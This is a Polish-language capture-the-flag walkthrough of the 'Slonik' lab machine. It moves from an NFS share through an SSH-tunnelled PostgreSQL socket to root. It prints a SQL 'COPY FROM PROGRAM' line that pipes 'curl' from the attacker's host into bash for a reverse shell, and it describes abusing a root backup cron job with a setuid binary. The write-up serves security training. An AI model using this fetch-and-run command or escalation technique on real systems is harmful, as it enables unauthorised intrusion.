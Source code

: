 # Slonik
Linux, Medium, created by **xct**

```
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
111/tcp  open  rpcbind 2-4 (RPC #100000)
2049/tcp open  nfs_acl 3 (RPC #100227)

```

![{811F7BA9-57F1-4CBB-9377-9C4444FC6D07}](https://github.com/user-attachments/assets/3ccda508-bec0-4cd3-adf2-85344f428798)

po kolei.

![{2E999524-67B0-4F29-91BC-4AA63C51EFB1}](https://github.com/user-attachments/assets/88726792-2831-471c-85e3-3b7d69c68e4d)

zipy sobie przeczytamy. Żeby przeczytać to co jest w service to trzeba utworzyć usera o uid/gui 1337

po wypakowaniu widzimy potężną ilość informacji

![{12CE5CFE-02A4-4BB8-9C3C-E2AF2ADF5A6F}](https://github.com/user-attachments/assets/af391f44-b2bb-49e3-a5da-758687d2dcf7)

wróćmy do tego usera 1337. 

![{1A7E4800-F9E5-4B60-96A7-62A67F7D1CBB}](https://github.com/user-attachments/assets/c4fecab6-353b-4555-b4eb-a7185adb4c85)

![{26EE64D0-44FA-4376-85A6-42C3BB991374}](https://github.com/user-attachments/assets/5b4643df-dc1b-49b8-b3ca-0638cb5e7256)

![{513C2F56-6335-4793-9C54-2E14B3F13345}](https://github.com/user-attachments/assets/76b62684-e56f-4bab-9c75-2de2b342ad1f)

- hash złamany i generalnie mamy dostęp, ale od razu gasi nam sesję.

![{D8796D4F-6748-4558-99FB-9D5AD9A200E1}](https://github.com/user-attachments/assets/ed6ba0db-c686-45cc-b8d3-aa6c0e3d539c)

Na podstawie wszystkiego co tutaj mamy wymyśliłem sztuczkę.
podam komendy na sesję 1 i sesję 2
```
ssh -N -L /tmp/.s.PGSQL.5432:/var/run/postgresql/.s.PGSQL.5432 service@10.10.70.82
psql -h /tmp -U postgres
```

Na sesji 1 otwieramy sobie tego ten porcik 5432, a na sesji 2 łączymy się z nim (w skrócie. Chcesz wiedzieć więcej? Doczytaj)

![{2ED8A23E-FCD6-4E04-B3D5-4CCD6A14C586}](https://github.com/user-attachments/assets/b9e285fb-68ff-43f8-a8c2-9c47d0e55d54)

tutaj coś co mnie interesuje `https://book.hacktricks.xyz/network-services-pentesting/pentesting-postgresql#rce`

![{A778ECC2-5886-408C-BF80-EBC3DC4BC19A}](https://github.com/user-attachments/assets/faee004c-0d23-4e29-afe9-e3a2a2cb1472)

```
DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd_exec(cmd_output text);
COPY cmd_exec FROM PROGRAM 'curl 10.8.4.124/a | bash';
SELECT * FROM cmd_exec;
```

- dziwne. Dostaję zwrotkę http, ale rev  shella brak

![{2190D173-5DA6-4B2C-90AE-3772EBC8781D}](https://github.com/user-attachments/assets/c1ab1a41-a254-4db5-b3f6-222dfcab6e79)

- jakiś waf/blokada na inny porty. Na 443 poszło

![{750323DF-EA5D-4B3E-B53E-93D104B3FB15}](https://github.com/user-attachments/assets/e858cf8a-8d85-4f70-a2d1-18566caa4e4f)

od razu mamy ciekawą grupę.
- btw nie mogę zaogować się na `service` przez su.

![{B7A1E628-82B3-4BB9-9922-A9074CD68A47}](https://github.com/user-attachments/assets/f9caed1f-716e-44b6-93b8-6381346150b5)

W sumie daje to nam do myślenia, że to będzie od razu root

- linpease odchoczny i dużo nie pokazał
- pspy coś tam się dzieje dość często

![{EB03DAF8-60DC-4BB3-A6C0-39C5A4FC2DD0}](https://github.com/user-attachments/assets/0ab33df8-a586-4c2b-a0d1-e286cb3cf0e4)

to `/bin/bash /usr/bin/backup`

![{3D73ADFB-21C4-487B-A5F3-F21265BB5952}](https://github.com/user-attachments/assets/a0911df9-83d2-47d6-b930-36a590c8cf96)

```
/usr/bin/rm -rf /opt/backups/current/*
/usr/bin/pg_basebackup -h /var/run/postgresql -U postgres -D /opt/backups/current/
/usr/bin/zip -r "/var/backups/archive-$date.zip" /opt/backups/current/

count=$(/usr/bin/find "/var/backups/" -maxdepth 1 -type f -o -type d | /usr/bin/wc -l)
if [ "$count" -gt 10 ]; then
  /usr/bin/rm -rf /var/backups/*
fi

```

Generalnie to wydaje się aż za proste.
Wszystko w backupie należy do roota, a my mamy write w miejscu, gdzie właścicielem jest nasz user `postgres`, a root zapisuje nasze pliki w `/opt/backups/current`, który nalezy do roota więc pliki też zmienią właściciela, ale uprawnienia na nich pozostaną.


![{F40EBD5C-D617-4643-8AB8-FF0D6ACE8C61}](https://github.com/user-attachments/assets/b5ff42e2-a96b-4abe-9c2a-0c220271d085)

czekamy kilka minut

![{060D24EA-77CA-4E64-B248-64908A7CB2B7}](https://github.com/user-attachments/assets/8e2c47d2-d47e-4be3-aa2d-108f8d8eb37f)

-coś mi się źle zapisało. Trzeba lekkie zmiany

![{9CAD7D20-6754-4DE5-84BE-65AA919491BD}](https://github.com/user-attachments/assets/ac08a788-6375-40d9-9b8b-21324039d978)

no i mamy roota (jakby były problemy to chmod 4777 może lepiej działać)




